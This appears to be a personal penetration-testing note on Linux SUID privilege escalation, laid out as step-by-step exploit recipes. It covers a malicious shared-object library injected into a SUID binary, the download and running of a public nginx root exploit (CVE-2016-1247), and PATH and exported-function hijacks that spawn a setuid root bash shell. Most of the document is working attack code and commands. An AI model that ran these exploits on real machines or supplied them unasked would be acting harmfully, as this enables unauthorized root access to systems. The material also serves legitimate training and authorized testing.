```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Detection

Files with SUID set run with higher privileges.  Can be found with "s"  on permissions.

-rws-rw-r--

Search for files that have SUID set
```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
OR
```bash - target
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20220219141658.png]]


![[Pasted image 20220219141727.png]]

#### suid3num.py

https://gtfobins.github.io/#+suid

```bash - kali
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
python suid3num.py
```

#### Shared Objection injection
```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219142402.png]]

![[Pasted image 20221115134928.png]]

```bash - target
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

![[Pasted image 20221115134943.png]]

The idea here is to find where we have write privileges, overwrite one of these files with our malicious code.  In this example, that file is /home/user/.config/libcalc.so


libcalc.c
```c - kali
#include <stdio.h>
#include <stdlib.h>


static void inject() __attribute__((constructor));

void inject () {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Verify the output path actually exists.  If not, make it.
Example /home/user/.config

```bash - kali
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

Now just run the original bin:

```bash - kali
/usr/local/bin/suid-so
```

![[Pasted image 20221115135412.png]]

#### CVE-2016-1247 Binary Symlinks
![[3._Automated Tools#Linux Exploit Suggester]]

![[Pasted image 20220219151234.png|1000]]

See if the target has unpatched version of nginx:

```bash - target
dpkg -l | grep nginx
```

```bash - kali
wget https://raw.githubusercontent.com/xl7dev/Exploit/master/Nginx/nginxed-root.sh
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - kali
./nginxed-root.sh /var/log/nginx/error.log
```

Logs must be rotated before exploit works.

#### Environmental Variables (Example 1)
```bash - target
env
```

```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219154119.png]]

/usr/local/bin/suid-env

```bash - target
strings /usr/local/bin/suid-env
```

![[Pasted image 20221115135430.png]]

We see at the bottom it is trying to start Apache by using the service binary.  We will create a malicious service binary.

```bash - target
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

```bash - target
gcc /tmp/service.c -o /tmp/service
```

```bash - target
export PATH=/tmp:$PATH
```

![[Pasted image 20221115135443.png]]

Notice now, that /tmp is first on the list when it looks for binary's.

```bash - target
/usr/local/bin/suid-env
```

#### Environmental Variables (Example 2)

```bash - target
strings /usr/local/bin/suid-env2
```

![[Pasted image 20221115135456.png]]

This one uses services located in /usr/sbin/service.  

```bash - target
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

```bash - target
export -f /usr/sbin/service
```

![[Pasted image 20221115135509.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
